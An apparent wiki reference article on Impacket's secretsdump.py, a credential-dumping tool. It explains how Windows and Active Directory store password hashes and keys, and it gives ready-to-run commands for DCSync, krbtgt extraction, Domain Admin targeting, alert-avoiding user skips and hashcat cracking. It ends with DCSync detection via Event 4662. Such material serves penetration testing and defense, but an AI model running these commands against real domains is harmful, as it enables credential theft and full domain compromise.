

title: "secretsdump.py"
script: "examples/secretsdump.py"
category: "Credential Access"
status: "Published"
protocols:
  - SMB
  - MSRPC
  - DRSUAPI
  - WinReg
  - MS-DRSR
  - MS-SAMR
ms_specs:
  - MS-DRSR
  - MS-SAMR
  - MS-RRP
  - MS-LSAD
  - MS-RPCE
mitre_techniques:
  - T1003
  - T1003.001
  - T1003.002
  - T1003.003
  - T1003.004
  - T1003.005
  - T1003.006
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
  - local_offline_files
tags:
  - impacket
  - impacket/examples
  - category/credential_access
  - status/published
  - protocol/smb
  - protocol/msrpc
  - protocol/drsuapi
  - protocol/winreg
  - authentication/ntlm
  - authentication/kerberos
  - technique/dcsync
  - technique/sam_dump
  - technique/lsa_secrets
  - technique/cached_credentials
  - technique/ntds_extraction
  - mitre/T1003
  - mitre/T1003/001
  - mitre/T1003/002
  - mitre/T1003/003
  - mitre/T1003/004
  - mitre/T1003/005
  - mitre/T1003/006
aliases:
  - secretsdump
  - impacket-secretsdump
  - dcsync
  - ntds_dump


# secretsdump.py

> **One line summary:** Extracts every form of stored credential material from a Windows host or Active Directory domain, including local SAM hashes, LSA secrets, cached domain logon credentials, the entire NTDS.dit user database, and Kerberos keys, using any of four execution modes (offline file parsing, remote registry, VSS shadow copy, or DRSUAPI replication) chosen automatically based on the target and authentication context.

| Field | Value |
|:---|:---|
| Script | `examples/secretsdump.py` |
| Category | Credential Access |
| Status | Published |
| Primary protocols | SMB, MSRPC, DRSUAPI, WinReg |
| Primary Microsoft specifications | `[MS-DRSR]`, `[MS-SAMR]`, `[MS-RRP]`, `[MS-LSAD]`, `[MS-RPCE]` |
| MITRE ATT&CK techniques | T1003 OS Credential Dumping (and all six sub techniques: .001 LSASS Memory, .002 SAM, .003 NTDS, .004 LSA Secrets, .005 Cached Domain Credentials, .006 DCSync) |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache, local offline files (no auth) |
| First appearance in Impacket | Very early (one of the foundational example tools) |
| Original authors | Alberto Solino (`@agsolino`), with significant contributions from many others over the years |


## Prerequisites

This article is the credential extraction reference. It builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](../05_smb_tools/smbclient.md) for SMB session lifecycle and the four authentication modes.
- [`rpcdump.py`](../01_recon_and_enumeration/rpcdump.md) for DCE/RPC, interface UUIDs, and string bindings.
- [`samrdump.py`](../01_recon_and_enumeration/samrdump.md) for SIDs, RIDs, and the well known RID table.
- [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md) for Kerberos foundations including encryption types (RC4, AES128, AES256), which directly map to the keys this tool extracts.
- [`getTGT.py`](../02_kerberos_attacks/getTGT.md) for the over pass the hash and pass the key workflows that consume the output of this tool.
- [`ticketer.py`](../02_kerberos_attacks/ticketer.md) for the Golden Ticket workflow that depends on the `krbtgt` key this tool extracts.

This is one of the largest articles in the wiki because the tool is one of the largest in the Impacket suite. Read it in pieces if needed; the protocol theory section in particular is dense because it covers four separate credential storage systems.


## What it does

`secretsdump.py` extracts every form of stored credential material that Windows holds locally on a host or that Active Directory holds on a domain controller. The tool is famously comprehensive: it handles every credential storage format Microsoft has shipped, decrypts each one using the appropriate key derivation algorithm, and outputs the results in formats suitable for offline cracking or direct reuse with the rest of Impacket.

The credential types covered:

- **Local SAM hashes.** NT hashes for every local user account on the target. Decrypted from the SAM registry hive using the bootkey from the SYSTEM hive.
- **LSA secrets.** Any secret stored in the Local Security Authority cache. This includes the machine account password (`$MACHINE.ACC`), DPAPI master keys (`DPAPI_SYSTEM`), default auto logon credentials (`DefaultPassword`), service account passwords for non interactive services, and various other system level secrets.
- **Cached domain logon credentials.** Up to 10 by default (configurable via `CachedLogonsCount`). Stored as MSCACHEv2 hashes in the SECURITY hive. These are what allow domain users to log onto domain joined workstations when the DC is unreachable.
- **NTDS.dit content.** The entire user database from a domain controller. Includes NT hashes and Kerberos keys (RC4, AES128, AES256) for every account in the domain, plus password history if requested. This is the holy grail of Active Directory compromise.

Four execution modes determine how the credentials are obtained:

- **LOCAL mode.** Parse offline files (SAM, SYSTEM, SECURITY, NTDS.dit) without any network activity. Used after exfiltrating hive files from the target.
- **Remote registry mode.** Default mode for non DC targets. Connects to the target via SMB, opens the remote registry service, queries the necessary hives, decrypts the contents in memory.
- **VSS shadow copy mode.** Used when remote registry is insufficient (most commonly for NTDS.dit on a domain controller, which is locked while running). Creates a Volume Shadow Copy via `vssadmin`, copies the locked files out, parses them locally.
- **DRSUAPI / DCSync mode.** Default mode for DC targets. Invokes the Directory Replication Services API to ask the DC for credential data using the same protocol used by domain controllers to replicate among themselves. No file access needed; no executable runs on the target.

The tool selects the appropriate mode automatically based on the target and the credentials supplied. The `-just-dc` family of flags forces DRSUAPI only mode. The `-use-vss` flag forces VSS only mode. The `LOCAL` target string activates offline file mode.

The output is a comprehensive credential dump suitable for input to every other Impacket tool that consumes credential material: [`getTGT.py`](../02_kerberos_attacks/getTGT.md), [`ticketer.py`](../02_kerberos_attacks/ticketer.md), [`getST.py`](../02_kerberos_attacks/getST.md), [`psexec.py`](../04_remote_execution/psexec.md), and others.


## Why it exists

Credential extraction has been the highest leverage post compromise activity since the Windows NT era. Tools like `pwdump`, `creddump`, and (later) `mimikatz` automated the extraction process and have been mandatory parts of every offensive security toolkit for over twenty years. The catch was that almost all of them ran on Windows and required local code execution on the target.

Alberto Solino built `secretsdump.py` to remove both constraints. The tool runs on Linux. It does not drop a binary on the target. For DC targets, it does not require any code execution at all because DRSUAPI is a network operation. For non DC targets, the remote registry approach extracts the same credentials that on host tools would extract, without ever loading code on the target system.

The design point that made `secretsdump.py` revolutionary was the consolidation. Before it existed, attackers needed `samdump2` for local SAM, `creddump` for cached credentials, `cachedump` for MSCACHE, custom NTDS.dit parsers for AD databases, and `mimikatz` running on the target for everything else. `secretsdump.py` does all of it from a single command, from any operating system, against any reachable Windows target.

The DRSUAPI based DCSync technique has its own origin story. The Directory Replication Services API was always part of `[MS-DRSR]`, but the realization that it could be invoked by anyone holding the right ACLs to dump credentials remotely was popularized by Benjamin Delpy (mimikatz's `lsadump::dcsync` module) around 2015. Alberto Solino added equivalent functionality to `secretsdump.py` shortly after. From that point on, recovering the entire domain's credential database stopped requiring physical access to a domain controller.

The tool exists because credential extraction is the single most valuable post compromise capability, and Microsoft's Windows architecture has always made it possible by design. `secretsdump.py` does not exploit any vulnerability. It uses the same APIs that legitimate replication, backup, and administrative tools use.


## The protocol theory

This section is long because the tool touches four separate credential storage systems, each with its own format, encryption scheme, and access path. Read it in pieces.

### Windows credential storage overview

Windows stores authentication material in four primary locations:

- **The SAM hive** holds local user account information. It is a registry hive at `HKLM\SAM`, backed by the file `%SystemRoot%\System32\config\SAM`. Local user NT hashes live here.
- **The SECURITY hive** holds LSA secrets. It is at `HKLM\SECURITY`, backed by `%SystemRoot%\System32\config\SECURITY`. Service account passwords, machine account passwords, DPAPI master keys, and cached domain credentials all live here.
- **The SYSTEM hive** holds the system bootkey (also called syskey). It is at `HKLM\SYSTEM`, backed by `%SystemRoot%\System32\config\SYSTEM`. The bootkey is required to decrypt anything in SAM or SECURITY.
- **NTDS.dit** holds the Active Directory database on domain controllers. It is at `%SystemRoot%\NTDS\ntds.dit`. Every domain user's NT hash and Kerberos keys live here.

The first three are present on every Windows installation. NTDS.dit is present only on domain controllers. The encryption schemes for the four are different and the tool handles all four separately.

### The bootkey (syskey)

The bootkey is a 16 byte value computed from four obfuscated registry values under `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`:

- `JD`
- `Skew1`
- `GBG`
- `Data`

Each subkey has a `Class` attribute that contains a hexadecimal string. The strings are concatenated in a specific order and the resulting bytes are de scrambled using a permutation array hardcoded into LSA. The output is the bootkey.

The bootkey is required to decrypt any other credential material on the host. The SAM hive uses it. The SECURITY hive uses it. The PEK inside NTDS.dit (covered below) is encrypted with a derivation of it.

This obfuscation is a defense in depth measure rather than real cryptography. The algorithm is well known; `secretsdump.py` reproduces it exactly. The intent was to make it harder for malware to dump the SAM by simply reading the SYSTEM hive, which it accomplishes only if the malware is unaware of the obfuscation algorithm. For tools like `secretsdump.py` that know the algorithm, the bootkey extraction is a few dozen lines of code.

### The SAM hive

The SAM database stores local user accounts in a key path like `HKLM\SAM\SAM\Domains\Account\Users\<RID>` where `<RID>` is the user's relative identifier in hex. Each user has a `V` value that contains, among other things, the NTLM hash encrypted with the bootkey.

The decryption process:

1. Read the user's `V` value from the SAM hive.
2. Locate the encrypted NTLM hash within `V` based on documented offsets.
3. Apply DES decryption using two keys derived from the user's RID.
4. Apply a second decryption layer using the bootkey.
5. The result is the user's NT hash.

The output format is the canonical pwdump format:

```text
<username>:<RID>:<LMhash>:<NThash>:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8155d421e8780df8e232009a74bef7b7:::
```

The LM hash is `aad3b435b51404eeaad3b435b51404ee` for almost every modern account because LM hashing was disabled by default in Windows Vista and Server 2008. The trailing `:::` is part of the format and contains optional fields for password change information.

### LSA secrets

LSA secrets are stored under `HKLM\SECURITY\Policy\Secrets`. Each secret is a separate key with `CurrVal` (the current value) and `OldVal` (the previous value, useful for password rotation analysis). The values are encrypted using a key derived from the SECURITY hive's `PolEKList` value, which is itself encrypted with the bootkey.

The decryption process:

1. Decrypt `PolEKList` using the bootkey.
2. The result contains the LSA encryption key.
3. For each secret, decrypt `CurrVal` (and `OldVal` if `-history` was specified) using that key.
4. Parse the resulting structure based on the secret type.

Notable LSA secrets that `secretsdump.py` extracts:

| Secret name | Content |
|:---|:---|
| `$MACHINE.ACC` | The computer account password. Used for the host's domain authentication. Critical for Silver Tickets against the host. |
| `DPAPI_SYSTEM` | The DPAPI machine key seeds. Used to decrypt DPAPI protected data on the host. |
| `NL$KM` | The MSCACHEv2 encryption key. Used by Windows to decrypt cached domain credentials. |
| `DefaultPassword` | The cleartext password for an auto logon configuration, if one is set. |
| `_SC_<service>` | Service account passwords for non interactive services. Stored in cleartext in the LSA cache. |
| `aspnet_WP_PASSWORD` | The ASP.NET worker process account password, when configured. |

The cleartext service account passwords are particularly notable. Many environments configure services to run under domain accounts and supply the credential via the Services snap in. Those credentials are stored cleartext (effectively) in the LSA secrets cache, and `secretsdump.py` extracts them in plain text. This is one of the most direct paths from local administrator access to domain credential compromise.

### Cached domain credentials (MSCACHE)

When a domain user logs on to a workstation that is currently disconnected from the domain controller (or simply for performance reasons), Windows uses cached credentials to authenticate. These cached credentials are stored under `HKLM\SECURITY\Cache` as MSCACHEv2 hashes (also called DCC2 or MSCASHv2).

The MSCACHEv2 algorithm is essentially `PBKDF2(HMAC-SHA1, NTHash, lowercase_username, 10240)`. The 10240 iteration count makes brute forcing significantly slower than NT hash cracking. The `secretsdump.py` output format is:

```text
<domain>/<username>:$DCC2$10240#<username>#<hash>
```

The `$DCC2$` prefix and `10240` iteration count match hashcat mode 2100. Cracking the hash recovers the user's password. The catch is that cached hashes cannot be used directly for authentication (unlike NT hashes); they can only be cracked offline.

The number of cached credentials available depends on `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\CachedLogonsCount`. The default is 10, meaning the last 10 distinct domain users to log on are cacheable. Setting this value to 0 disables caching entirely, which is a hardening recommendation for high security environments at the cost of breaking offline domain logons.

### NTDS.dit

The Active Directory database is stored in an Extensible Storage Engine (ESE) format at `%SystemRoot%\NTDS\ntds.dit`. The file is large (often gigabytes in production environments) and is locked while the directory service is running.

User credential information is stored in the `datatable` of the database. Each user account row contains, among many other things:

- `unicodePwd`: the NT hash, encrypted.
- `ntPwdHistory`: previous NT hashes, encrypted.
- `lmPwdHistory`: previous LM hashes (mostly empty in modern domains).
- `supplementalCredentials`: additional credential material including Kerberos keys and the cleartext password if reversible encryption is enabled.

All of these are encrypted with a key derived from the `Password Encryption Key` (PEK).

### The PEK

The PEK is a randomly generated key, stored encrypted within NTDS.dit itself in the `pekList` attribute of the database root object. The `pekList` is encrypted using a derivation of the bootkey from the SYSTEM hive of the domain controller.

The decryption chain for any credential value in NTDS.dit:

1. Read SYSTEM hive, compute bootkey.
2. Read `pekList` from NTDS.dit, decrypt with bootkey, extract PEK.
3. Read the encrypted credential field for a user.
4. Apply RC4 layer using PEK and the field's salt.
5. Apply DES layer using two keys derived from the user's RID.
6. The result is the plaintext NT hash, AES key, or other credential material.

This is why NTDS.dit alone is not sufficient to dump credentials. The SYSTEM hive of the same DC is required for the bootkey. `secretsdump.py` requires both files when running in offline mode against NTDS.dit.

### DRSUAPI and DCSync

The Directory Replication Services Remote Protocol (`[MS-DRSR]`) is the protocol domain controllers use to replicate the directory database among themselves. It runs over MSRPC on the standard interfaces and is exposed on TCP port 135 (endpoint mapper) plus a dynamically allocated port.

The key operation is `IDL_DRSGetNCChanges`. A DC asking another DC for changes to a naming context (NC) calls this method. The response contains the requested attributes for the requested objects. Among the attributes that can be requested are the credential fields (`unicodePwd`, `ntPwdHistory`, `supplementalCredentials`).

`secretsdump.py`'s DRSUAPI mode invokes `IDL_DRSGetNCChanges` from the attacker's host as if the attacker were a domain controller asking for replication updates. The DC happily responds because the protocol does not (and cannot) distinguish a real DC from any other principal that holds the right access rights.

The access rights required:

- `DS-Replication-Get-Changes` (extended right `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`) for ordinary attributes.
- `DS-Replication-Get-Changes-All` (extended right `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`) for credential fields.

By default, members of `Administrators`, `Domain Admins`, `Enterprise Admins`, and `Domain Controllers` have these rights. The classic privilege escalation path: a non administrative account with `Domain Admin` group membership can DCSync. A non administrative account that has been granted these rights explicitly via the directory's ACLs can DCSync without being a Domain Admin.

Auditing for accounts with these rights granted explicitly is one of the most important AD hygiene activities. BloodHound calls this out as `GetChanges` and `GetChangesAll` edges in its graph.

### The keylist attack (RODC)

Read Only Domain Controllers (RODCs) are domain controllers that hold a subset of the directory and that cannot be modified through replication. They were introduced in Windows Server 2008 to support deployments in less trusted physical locations (branch offices, perimeter networks).

An RODC holds an `msDS-RevealedList` attribute containing the SIDs of accounts whose passwords are cached on the RODC. Anyone who compromises the RODC's `krbtgt` key (a special per RODC variant) can use the keylist attack to retrieve those cached credentials.

`secretsdump.py` supports the keylist approach via the `-rodcNo` and `-rodcKey` flags. The mode is rarely used in practice because compromising an RODC is a relatively niche scenario, but it is documented for completeness.


## How the tool works internally

The script implements four distinct execution paths under one entry point. The selection logic:

1. **Argument parsing.** The standard target string plus a large set of mode and credential type flags.

2. **Mode selection:**
    - If target is `LOCAL` and one or more of `-system`, `-sam`, `-security`, `-ntds`, `-bootkey` are supplied: **offline file mode**.
    - If `-just-dc`, `-just-dc-ntlm`, or `-just-dc-user` is supplied, or if the target is detected as a DC: **DRSUAPI mode**.
    - If `-use-vss` is supplied: **VSS shadow copy mode**.
    - Otherwise: **remote registry mode** (default for non DC targets).

3. **Authentication.** SMB session establishment for non LOCAL modes. See [`smbclient.py`](../05_smb_tools/smbclient.md) for the lifecycle.

4. **Remote registry mode workflow:**
    - Connect to the SVCCTL service via the `\pipe\svcctl` named pipe.
    - Check the state of the `RemoteRegistry` service. If stopped, start it temporarily.
    - Connect to `\pipe\winreg` (the Windows Remote Registry interface, `[MS-RRP]`).
    - Save the SAM, SECURITY, and SYSTEM hives to temporary files on the target via `BaseRegSaveKey`.
    - Pull the saved files back via SMB to the attacker's machine.
    - Compute the bootkey from the SYSTEM hive.
    - Parse SAM and SECURITY in memory using the bootkey.
    - Output results.
    - Restore the original `RemoteRegistry` service state.

5. **VSS shadow copy mode workflow:**
    - Authenticate via SMB.
    - Use SMBExec, WMIExec, or MMCExec (selected by `-exec-method`) to run `vssadmin create shadow /For=C:` on the target.
    - Copy the shadow copy's SAM, SECURITY, SYSTEM, and (on a DC) NTDS.dit files back to the attacker.
    - Delete the shadow copy.
    - Parse all files in memory.

6. **DRSUAPI mode workflow:**
    - Authenticate via SMB (this step exists for "undocumented reasons" per The Hacker Recipes; mimikatz uses LDAP instead).
    - Bind to the DRSUAPI interface (UUID `e3514235-4b06-11d1-ab04-00c04fc2dcd2`) via the endpoint mapper.
    - Issue an `IDL_DRSBind` to obtain a DRS handle.
    - For each user (or all users with `-just-dc`), issue an `IDL_DRSCrackNames` to convert the username to a DSName.
    - Issue `IDL_DRSGetNCChanges` for each user, requesting the credential attributes.
    - Decrypt the responses using the negotiated session key.
    - Output results.

7. **Offline file mode workflow:**
    - Open the supplied SYSTEM hive, compute bootkey.
    - Open the supplied SAM hive (if any), decrypt user hashes.
    - Open the supplied SECURITY hive (if any), decrypt LSA secrets and cached credentials.
    - Open the supplied NTDS.dit (if any), decrypt user hashes and Kerberos keys.
    - Output results.

8. **Output formatting.** Three primary streams:
    - SAM and NTDS hashes in pwdump format.
    - LSA secrets in their native format with structure aware decoding.
    - Cached credentials in `$DCC2$` format.

9. **Resume support for DRSUAPI.** Large NTDS dumps can fail mid run due to network issues. The `-resumefile` flag writes a small state file allowing the dump to resume from where it left off.

10. **Output file generation.** When `-outputfile <base>` is supplied, the tool writes:
    - `<base>.sam` for local SAM.
    - `<base>.secrets` for LSA secrets.
    - `<base>.cached` for MSCACHE.
    - `<base>.ntds` for NTDS.dit content.
    - `<base>.ntds.kerberos` for the Kerberos keys.


## Authentication options

Standard four mode pattern from [`smbclient.py`](../05_smb_tools/smbclient.md), plus the special LOCAL mode for offline file parsing.

### Cleartext password

```bash
secretsdump.py CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

### NT hash (over pass the hash equivalent)

```bash
secretsdump.py -hashes :<nthash> CORP.LOCAL/admin@dc01.corp.local
```

The output of one `secretsdump.py` run becomes the input to the next: dump a workstation, recover the local admin hash, use that hash to dump another workstation, recover a domain admin hash, use that hash to DCSync the domain controller, recover the `krbtgt` hash, forge Golden Tickets.

### AES key

```bash
secretsdump.py -aesKey <hex> CORP.LOCAL/admin@dc01.corp.local
```

### Kerberos ccache

```bash
export KRB5CCNAME=admin.ccache
secretsdump.py -k -no-pass CORP.LOCAL/admin@dc01.corp.local
```

The ccache flow chains naturally with [`getTGT.py`](../02_kerberos_attacks/getTGT.md): obtain a TGT for the credential, then use it for the DCSync.

### LOCAL mode (no authentication)

```bash
secretsdump.py -sam SAM.hive -system SYSTEM.hive -security SECURITY.hive LOCAL
```

No network activity. The tool reads the supplied hive files and decrypts everything locally. Use this after exfiltrating hives from a target via any means (file copy from a backup, image extraction, shadow copy, you name it).

### Minimum privileges

The required privileges depend on the mode:

- **Offline file mode:** None. Just file system access.
- **Remote registry mode:** Local Administrator on the target.
- **VSS shadow copy mode:** Local Administrator on the target. The exec method (smbexec/wmiexec/mmcexec) requires equivalent rights.
- **DRSUAPI mode:** `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` extended rights on the domain naming context. Members of `Administrators`, `Domain Admins`, `Enterprise Admins`, and `Domain Controllers` have these by default.

Notable: DRSUAPI mode does not require local administrator rights on the DC itself. It requires the replication ACLs in Active Directory. This is a critical distinction because many environments grant explicit replication rights to backup software, monitoring tools, or third party identity products without realizing those grants enable full credential extraction.


## Practical usage

### Dump a domain controller (DCSync, default mode)

```bash
secretsdump.py CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

Output begins with the local SAM and LSA secrets of the DC (because the tool also runs the registry mode against the DC), then proceeds to the DRSUAPI dump:

```text
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x[redacted]
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[redacted]:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:[redacted]
[*] DPAPI_SYSTEM
dpapi_machinekey:0x[redacted]
dpapi_userkey:0x[redacted]
[*] NL$KM
NL$KM:[redacted]
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
CORP.LOCAL\Administrator:500:aad3b435b51404eeaad3b435b51404ee:[redacted]:::
CORP.LOCAL\Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CORP.LOCAL\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[redacted]:::
... [potentially thousands more] ...
[*] Kerberos keys grabbed
CORP.LOCAL\Administrator:aes256-cts-hmac-sha1-96:[redacted]
CORP.LOCAL\Administrator:aes128-cts-hmac-sha1-96:[redacted]
CORP.LOCAL\krbtgt:aes256-cts-hmac-sha1-96:[redacted]
... [Kerberos keys for every account] ...
[*] Cleaning up...
```

The `krbtgt` line is what feeds [`ticketer.py`](../02_kerberos_attacks/ticketer.md) for Golden Tickets. The `$MACHINE.ACC` is what feeds Silver Tickets against the DC itself.

### Dump only the krbtgt (most common single user use)

```bash
secretsdump.py -just-dc-user krbtgt CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

Output:

```text
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
CORP.LOCAL\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[redacted]:::
[*] Kerberos keys grabbed
CORP.LOCAL\krbtgt:aes256-cts-hmac-sha1-96:[redacted]
CORP.LOCAL\krbtgt:aes128-cts-hmac-sha1-96:[redacted]
[*] Cleaning up...
```

This is the single most common use of `secretsdump.py` in modern engagements: a targeted DCSync to recover only the `krbtgt` material, then Golden Ticket forgery via [`ticketer.py`](../02_kerberos_attacks/ticketer.md).

### Dump all NTLM hashes only (no Kerberos keys)

```bash
secretsdump.py -just-dc-ntlm CORP.LOCAL/admin:'P@ss'@dc01.corp.local \
  -outputfile corp_dump
```

Faster than the full dump and produces a single file `corp_dump.ntds` ready for hashcat with mode 1000:

```bash
hashcat -m 1000 corp_dump.ntds rockyou.txt
```

### Dump a specific user

```bash
secretsdump.py -just-dc-user 'specific_user' \
  CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

Useful for targeting a specific high value account without pulling the entire database.

### LDAP filter for selective dumping

```bash
secretsdump.py -ldapfilter '(memberOf=CN=Domain Admins,CN=Users,DC=corp,DC=local)' \
  CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

Dumps credentials for every account matching the LDAP filter. The example dumps every Domain Admin. Useful for high value account targeted operations.

### Dump a workstation (local SAM and LSA)

```bash
secretsdump.py CORP.LOCAL/admin:'P@ss'@ws01.corp.local
```

For a non DC target, the tool defaults to the remote registry approach. Output covers local SAM, LSA secrets, and cached domain credentials.

### LOCAL mode with exfiltrated hives

```bash
# After exfiltrating SAM, SYSTEM, and SECURITY from the target via reg save
# and copying them back to the attacker host:
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

Pure offline operation. Useful when the target is no longer accessible or when stealth concerns prohibit further interaction.

### LOCAL mode against an exfiltrated NTDS.dit

```bash
# After ntdsutil snapshot extraction or DC backup recovery:
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

The entire domain credential database, parsed offline. No DC interaction. No DCSync events. Used in scenarios where the attacker has obtained a DC backup or has performed a snapshot of a DC's volume.

### VSS mode for stealth

```bash
secretsdump.py -use-vss CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

Forces the VSS shadow copy method instead of DRSUAPI. Slightly less stealthy because it requires code execution on the target, but it produces a complete dump including LSA secrets that DRSUAPI does not see.

### Dump password history

```bash
secretsdump.py -history CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

Includes the last 24 password hashes for each account. Useful for password reuse analysis and for detecting accounts that rotate through a small password set.

### Resume an interrupted DCSync

```bash
secretsdump.py -resumefile session.resume CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

If the dump fails mid run (large directory, network glitch), the resume file lets you pick up where you left off. Particularly useful for very large enterprise directories where a full dump can take hours.

### Skip specific users

```bash
secretsdump.py -skip-user 'noisy_account1,noisy_account2' \
  CORP.LOCAL/admin:'P@ss'@dc01.corp.local
```

Skip accounts you do not want in the output. Useful in environments with monitoring accounts that would generate alerts on their own credential dumps.

### Key flags

| Flag | Meaning |
|:---|:---|
| `-just-dc` | Extract only NTDS.dit data (NTLM hashes and Kerberos keys). |
| `-just-dc-ntlm` | Extract only NTDS.dit NTLM hashes. |
| `-just-dc-user <user>` | Extract only the specified user from NTDS.dit. |
| `-ldapfilter <filter>` | Extract NTDS.dit data matching an LDAP filter. |
| `-skip-user <users>` | Skip specified users (comma separated or file). |
| `-skip-sam` | Do not parse the SAM hive. |
| `-skip-security` | Do not parse the SECURITY hive. |
| `-system <file>` | Use the specified SYSTEM hive (LOCAL mode). |
| `-sam <file>` | Use the specified SAM hive (LOCAL mode). |
| `-security <file>` | Use the specified SECURITY hive (LOCAL mode). |
| `-ntds <file>` | Use the specified NTDS.dit (LOCAL mode). |
| `-bootkey <hex>` | Provide the bootkey directly (skip SYSTEM hive parsing). |
| `-history` | Dump password history and LSA secrets `OldVal`. |
| `-pwd-last-set` | Show `pwdLastSet` for each NTDS account. |
| `-user-status` | Show whether each NTDS account is enabled or disabled. |
| `-use-vss` | Use VSS shadow copy method instead of DRSUAPI. |
| `-exec-method <method>` | Execution method for VSS (`smbexec`, `wmiexec`, or `mmcexec`). |
| `-resumefile <file>` | Resume file for interrupted DCSync sessions. |
| `-outputfile <base>` | Base filename for output files. |
| `-rodcNo`, `-rodcKey` | Read Only DC keylist attack mode. |
| `-use-keylist` | Use the keylist attack approach. |
| `-hashes`, `-aesKey`, `-k`, `-no-pass` | Standard authentication flags. |
| `-dc-ip`, `-target-ip` | Explicit DC or target IP. |


## What it looks like on the wire

The wire traffic differs significantly across the four modes.

### Remote registry mode

- TCP connection to port 445 (SMB) on the target.
- SMB session establishment with NTLM or Kerberos authentication.
- Tree connect to `IPC$`.
- Open `\pipe\svcctl` (Service Control Manager).
- DCERPC bind to SCMR (UUID `367abb81-9844-35f1-ad32-98f038001003`).
- Calls to query, enable (if needed), and start the `RemoteRegistry` service.
- Open `\pipe\winreg` (Windows Remote Registry).
- DCERPC bind to WINREG (UUID `338cd001-2244-31f1-aaaa-900038001003`).
- A series of `OpenLocalMachine`, `OpenKey`, `SaveKey`, and `CloseKey` calls.
- Open file handles via SMB to the saved hive files at `C:\Windows\Temp\<random>`.
- Read the file contents back via SMB.
- Delete the temporary files.
- Stop and restore the `RemoteRegistry` service state.
- Close the SMB session.

### DRSUAPI mode

- TCP connection to port 445 (SMB) on the target DC.
- SMB session establishment.
- Open `\pipe\samr` for some preliminary lookups.
- Open `\pipe\drsuapi` (or alternatively, a direct connection to the DRSUAPI endpoint discovered via the endpoint mapper).
- DCERPC bind to DRSUAPI (UUID `e3514235-4b06-11d1-ab04-00c04fc2dcd2`).
- `IDL_DRSBind` to obtain a DRS handle.
- One `IDL_DRSCrackNames` per user to convert the name to a DSName.
- One `IDL_DRSGetNCChanges` per user with the credential attributes requested.
- The responses are encrypted with a session key derived during the bind.

### VSS mode

- SMB session establishment.
- Code execution via SMBExec, WMIExec, or MMCExec (each has its own protocol footprint).
- Execution of `vssadmin create shadow /For=C:` on the target.
- Various SMB file operations to copy the shadow copy contents.
- Execution of `vssadmin delete shadows /For=C: /Quiet` to clean up.

### Offline mode

No network traffic at all. The tool only reads local files.

### Wireshark filters

```text
samr                                          # SAMR named pipe traffic
winreg                                        # Remote Registry traffic
drsuapi                                       # DRSUAPI traffic (DCSync)
smb2.cmd == 5 and smb2.share contains IPC     # IPC$ tree connects
```


## What it looks like in logs

The log signature varies dramatically by mode. The DRSUAPI mode signature is the famous "DCSync" detection.

### DRSUAPI mode (DCSync detection)

The single most important detection signal in this article. **Event ID 4662** with the replication GUIDs in the `Properties` field is the canonical DCSync signature.

| Field | Value |
|:---|:---|
| EventID | 4662 |
| ObjectServer | `DS` |
| ObjectType | `%{19195a5b-6da0-11d0-afd3-00c04fd930c9}` (Domain DNS object) |
| Properties | Contains `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` and/or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` |
| AccessMask | `0x100` (Control_Access) |
| SubjectUserName | The account performing the DCSync |
| SubjectUserSid | The SID of that account |

The two GUIDs to watch for:

- `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`: `DS-Replication-Get-Changes`
- `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`: `DS-Replication-Get-Changes-All`

**Both GUIDs together** in a single 4662 event from a non DC source is the DCSync signature. Domain controllers performing legitimate replication trigger the same events but their `SubjectUserName` ends with `$` (because DCs use their machine accounts).

